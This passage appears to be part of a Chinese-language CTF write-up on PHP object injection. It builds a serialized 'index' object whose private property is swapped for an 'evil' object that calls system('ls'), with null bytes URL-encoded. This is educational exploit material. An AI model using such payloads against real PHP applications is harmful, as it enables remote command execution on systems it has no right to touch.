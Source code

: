    ![了解调用链 1](./images/ser1.png) (代码定义)
    *   **Payload 构造:**
        1.  序列化 `evil` 对象: `O:4:"evil":1:{s:5:"test2";s:13:"system('ls');";}` (假设 `action` 使用 `test2` 属性)
        2.  序列化 `index` 对象 (原始): `O:5:"index":1:{s:11:"\0index\0test";O:6:"normal":0:{}}` (注意私有属性格式 `\0index\0test`)
        3.  **手动修改:** 将 `index` 序列化字符串中 `test` 属性的值替换为 `evil` 对象的序列化字符串：
            `O:5:"index":1:{s:11:"%00index%00test";O:4:"evil":1:{s:5:"test2";s:13:"system('ls');";}}` (空字节需 URL 编码)